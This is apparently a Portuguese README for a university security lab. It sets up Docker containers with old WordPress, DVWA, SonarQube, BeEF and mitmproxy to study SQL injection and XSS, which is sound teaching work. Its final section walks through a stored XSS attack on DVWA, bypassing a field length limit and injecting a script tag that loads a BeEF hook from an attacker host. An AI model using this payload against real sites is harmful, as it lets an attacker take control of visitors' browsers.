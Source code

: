 # 41ASO-SegInfo
Estudo sobre ataques de SQLi e XSS com PoC em sqlmap e BeeF. Turma `41ASO`, disciplina `ARCHITECTURE FOR MASTERING STRATEGIC AND EMERGING TECHNOLOGY INNOVATION`, professor `Ricardo Giorgi`.

## Pré-requisito
- [Docker](https://docs.docker.com/get-docker/)
- [Docker Compose](https://docs.docker.com/compose/install/)

## WordPress
Foi criado um container de WordPress na versão 3.3.0, obtido através da referência [WordPress Releases](https://wordpress.org/download/releases/).

Para construir a imagem do container de WordPress 3.3.0, é necessário realizar o comando `docker-compose build wordpress`.

Para executar o sistema WordPress, é necessário realizar os seguintes comandos:
```
docker-compose up -d db
docker-compose up -d wordpress
```
Enquanto o container de MariaDB não finalizar sua inicialização, o container do WordPress ficará restartando.

Realizamos o backup do diretório `/var/www/html/`, localizado em `wordpress/site/`, onde efetuamos a montagem desse diretório para o container, a fim de disponibilizar o ambiente preparado para o estudo.

Também realizamos o backup da base de dados `wordpress`, localizado em `wordpress\wordpress.sql`, onde efetuamos a montagem desse arquivo no container de MariaDB, para que seja carregado para o MariaDB durante sua primeira inicialização, trazendo todas as configurações realizadas no WordPress.

Exemplo de comando para realização do backup da base de dados:
```
mysqldump -u admin -padmin --quick --extended-insert wordpress > wordpress.sql
```

### Credenciais WordPress
- Home: `http://127.0.0.1:8889/`
- Página de login: `http://127.0.0.1:8889/wp-login.php`
- Usuário: `admin`
- Senha: `admin`

### Credenciais Base de Dados WordPress
- Host: `db`
- Usuário: `admin`
- Senha: `admin`
- Database: `wordpress`

## DVWA
Para auxiliar no estudo, configuramos um container de DVWA.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d dvwa
```

Para interagir com o sistema, acessar a URL `http://127.0.0.1:8888/`. Segue referência do [código-fonte](https://github.com/ethicalhack3r/DVWA).

### Credenciais DVWA
- Usuário: `admin`
- Senha: `password`

## SonarQube
Para auxiliar no estudo, configuramos um container de SonarQube, a fim de escanear códigos-fonte, na tentativa de identificação de vulnerabilidades.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d sonarqube
```
Pode demorar alguns minutos para terminar de inicializar o sistema.

Para interagir com o sistema, acessar a URL `http://127.0.0.1:9000/`.

### Credenciais SonarQube
- Usuário: `admin`
- Senha: `admin`

## SonarQube Scan
Container responsável por escanear os códigos-fonte dos sistemas alvo, e reportar ao SonarQube.

Para construir a imagem do container de scan, é necessário realizar o comando `docker-compose build sonar-scan`.

Garantir que o container do SonarQube está funcionando. Logar no site do container para validar, conforme instruções descritas acima.

Para realizar o scan dos sistemas DVWA e WordPress 3.3.0, realizar o seguinte comando:
```
docker-compose run sonar-scan
```

Para entrar no container de scan, realizar o seguinte comando:
```
docker-compose run sonar-scan bash
```

## Attack
Container contendo ferramentas para ataque dos sistemas alvo.

Para construir a imagem do container de ataque, é necessário realizar o comando `docker-compose build attack`. A construção da imagem é demorada, devido à instalação do framework BeEF.

Para entrar no container de ataque, realizar o seguinte comando:
```
docker-compose run attack bash
```

Para executar a framework BeEF, é necessário realizar os seguintes comandos:
```
docker-compose run attack bash
cd /opt/beef
./beef
```

Adicionalmente, pode-se executar outro `bash` no mesmo container. Para isso, primeiramente obter o nome do container em execução:
```
docker-compose ps
```
Resultando na seguinte saída de exemplo:
```
                Name                               Command               State           Ports
-------------------------------------------------------------------------------------------------------
41aso-seginfo_attack_run_c58f5649e3a3   bash                             Up
```
Agora basta executar o comando `docker exec -it 41aso-seginfo_attack_run_c58f5649e3a3 bash`.

### Credenciais BeEF
- Usuário: `beef`
- Senha: `feeb`

## Realizar ataque com BeEF
Primeiramente, precisaremos conectar na SDN Docker. Para isso, utilizaremos o mitmproxy. Executar o seguinte comando:
```
docker-compose up -d mitmproxy
```

Configurar o proxy da sua máquina ou navegador, para apontar para o IP do host Docker, na porta 8080.
Exemplo em Windows, com Docker Desktop:
```
Painel de Controle\Rede e Internet\Central de Rede e Compartilhamento -> Opções da Internet -> Aba "Conexões" -> Configurações da LAN -> Servidor proxy:
Endereço: 127.0.0.1
Porta: 8080
OK
```

Executar o BeEF e o DVWA. Após executar o BeEF, ele irá te indicar a URL `Hook URL`, com o IP da SDN Docker, onde deveremos copiar essa URL, para compor o código de injeção XSS. Exemplo de URL: `http://10.60.80.100:3000/hook.js`. Exemplo de código de injeção XSS: 
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
```

Acessar o DVWA na URL [http://dvwa/login.php](http://dvwa/login.php) e efetuar o login. Selecionar o item `XSS (Stored)` do menu lateral. Essa página é responsável por listar mensagens enviadas pelos usuários, onde é possível preencher seu nome e a mensagem que deseja enviar. É uma página vulnerável ao ataque do tipo XSS, onde seguiremos os seguintes passos para executar o ataque:
- No campo de texto do `Message`, clicar com botão direito e inspecionar o elemento HTML. Deve aparecer o seguinte código:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>
```
Aumentar o maxlength para que possamos injetar todo o código necessário:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>
```
- No campo `Name`, preencher com qualquer informação: `HelloBeEF`.
- No campo `Message`, preencher com o código de injeção gerado:
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
````
- Pressionar o botão `Sign Guestbook`

Toda vez que essa página for acessada, como ela lista as mensagens enviadas, e na última mensagem enviada, contém um código XSS injetado, automaticamente seremos redirecionados à página do BeEF.